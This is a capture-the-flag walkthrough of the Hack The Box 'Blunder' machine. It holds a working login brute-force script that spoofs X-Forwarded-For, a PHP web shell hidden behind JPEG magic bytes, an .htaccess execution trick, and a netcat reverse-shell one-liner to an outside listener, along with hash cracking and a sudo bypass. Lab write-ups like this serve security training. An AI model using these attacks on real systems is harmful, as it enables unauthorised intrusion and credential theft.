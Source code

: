 # HTB - Blunder - 10.10.10.191
### written by: Joshua Worley

## Enumeration
kali@kali:~$ `sudo nmap -sC -sV -F -O 10.10.10.191`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-18 16:32 EDT
Nmap scan report for 10.10.10.191
Host is up (0.048s latency).
Not shown: 98 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%), Linux 2.6.32 - 3.13 (89%), Linux 3.0 - 3.2 (89%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (89%), Linux 3.7 (89%), Ubiquiti AirOS 5.5.9 (89%), Linux 3.3 (88%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.61 seconds
```

I like to make an /etc/hosts entry for the box at this point. You'll see me refer to blunder.htb going forward.

### Continued enumeration - pivoting from nmap
Looking for directories that I can read.<br>
`dirb http://blunder.htb/ /usr/share/wordlists/dirb/common.txt`<br>
This reveals the /admin path.<br>
<img src="images/00-dirb.png">

And fuzz for stray txt files<br>
`wfuzz -w /usr/share/wordlists/dirb/big.txt --hc 404 http://blunder.htb/FUZZ.txt`<br>

The todo.txt file is unusual. Curl it to see contents.
<img src="images/01-wfuzz.png">

Inform fergus? This is our candidate user name.

### Credential stuffing the login page
Looking at the admin page, it never hurts to try admin/admin first.
<img src="images/02-first-login.png">

Inspecting the form submission reveals that a unique cookie is required for each submission. Credential stuffing this form will require a unique session for each attempt and parsing for the token.
<img src="images/02-html-inspect.png">

This is a modified version of a well known <A href="https://rastating.github.io/bludit-brute-force-mitigation-bypass/">script by rasting</A>.
I was almost there when testing, but realized I needed the X-Forwarded-For when finding his code!
```python
import argparse
import re
import requests

parser = argparse.ArgumentParser(description='Cred stuff for simple http web form')

parser.add_argument('-d',
                    metavar='Dictionary',
                    type=str,
                    help='word list for password candidates',
                    required=True)

parser.add_argument('-p',
                    metavar='Web page',
                    type=str,
                    help='site with form we will stuff',
                    required=True)

parser.add_argument('-u',
                    metavar='User',
                    type=str,
                    help='username we are attacking',
                    required=True)


args = parser.parse_args()

with open(args.d, 'r', errors="replace") as f:
    DICT = f.readlines()

#print(DICT)
for word in DICT:
    session = requests.Session()
    get_it = session.get(args.p)
    sess_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', get_it.text).group(1)
    #print('> {}'.format(word.rstrip()))
    print('> {}'.format(word.rstrip()), end='\r')

    headers = {
        'X-Forwarded-For': word.rstrip(),
        'Referer': args.p,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36'
    }

    payload = {
        'tokenCSRF': sess_token,
        'username': args.u,
        'password': word.rstrip(),
        'save': ''
    }

    login = session.post(args.p, headers = headers, data = payload, allow_redirects = False)

    #print(login.headers)
    if "Location" in login.headers and login.headers['Location'] == "/admin/dashboard":
        print("[!] Password: {}".format(word))
        break
```

The usual word lists did not work. Ultimately, scraping the page with `cewl` revealed the passphrase for fergus.
<img src="images/03-cewl.png">

Output from the python script above
<img src="images/03-fergus-brute.png">

Here is a snippet of what we were looking for
<img src="images/03-fergus-header.png">

### Taking foothold
The vulnerability we will leverage is <A href="https://github.com/bludit/bludit/issues/1081" rel="noopener noreferrer" target="_blank">CVE-2019-16113</A>.

1. prepare the payload
We start prepping by creating an <A href="https://owasp.org/www-community/attacks/Command_Injection" alt="example 6" rel="noopener noreferrer" target="_blank">intentionally vulnerable snippet of php</A>. This file can be named anything; I chose "shell.jpg".
```php
ÿØÿà..JFIF..
<?php system($_GET['cmd']); ?>
```
> The `ÿØÿà..JFIF..` bit is the magic code for a JPG and tricks the Bludit uploader into assuming our file is an image.

2. Create an `.htaccess` file
```
RewriteEngine Off
AddType application/x-httpd-php .jpg
```

3. Login to the Bludit admin panel with fergus' credentials, then click the new "New content" button.
<img src="images/04-new-content.png">


4. Start burpsuite and be sure to point your browser to its proxy socket. Then, click the images button on the Bludit new content page, click browse, and select your payload. In my case, that would be `shell.jpg`.
<img src="images/04-image-upload.png"><br>
Burpsuite should pop into the foreground. On line 24 (yours may be slightly different), you can change the uuid field to the `tmp` directory as described in the CVE. You will have to traverse up a couple times as shown in the screenshot-- `../../tmp` ; then click 'Forward'.
<img src="images/04-upload-shell.png">


5. Upload your .htaccess file, but no need to modify the UUID this time. You may need to select your jpg initially, then replace the filename with `.htaccess`.
<img src="images/04-htaccess.png">

6. URL encode our <A href="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" alt="example 6" rel="noopener noreferrer" target="_blank">reverse shell</A>. This can be done with a simply python script. Also, start your listening port for the reverse shell.
```python
import urllib.parse
from sys import argv
print(urllib.parse.quote(argv[1]))
```
The reverse shell used
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 9876 >/tmp/f
```
<img src="images/04-url-encode.png">


7. Stop burpsuite and remove the proxy setting from your browser. Then navigate to the file you uploaded and append the `cmd` key to the end with your URL encoded reverse shell. You should then see your listening netcat socket drop into a basic shell prompt.
<img src="images/04-tmp-dir.png"><br><br>
<img src="images/04-reverse-shell.png"><br><br>
<img src="images/04-pwned.png">

### Privilege escalation: user access
This requires additional enumeration. After a lot of looking around, grepping for "password" yielded interesting results.
```bash
grep -Ri "\"password\":" /var/www
```
<img src="images/05-grep-password.png"><br>

`/var/www/bludit-3.10.0a/bl-content/databases/users.php` is the most interesting file. It contains a raw sha1 digest for Hugo. Hugo is also listed in /etc/passwd as a user on our system (and his home directory contains the user.txt flag!)
<img src="images/05-hugo-hash.png">

Saved the hash on my kali workstation on used hashcat. I tried various dictionaries which did not work initially, but using a hybrid dict-mask attack was successful.
<img src="images/05-hashcat-exe.png">
<img src="images/05-hugo-results.png">

And now `su - hugo` to escalate privilege.<br>
<img src="images/05-su-hugo-censor.png">

### Escalate to root
I always check `sudo -l` once I've gained a user account. This reveals an odd entry. The hugo account cannot execute /bin/bash as root.
<img src="images/06-sudo-l.png">

A quick google search of this sudo line entry revealed an <A href="https://www.exploit-db.com/exploits/47502" alt="example 6" rel="noopener noreferrer" target="_blank">easy workaround</A>.
<img src="images/06-root-flag.png">

## That's all, folks!
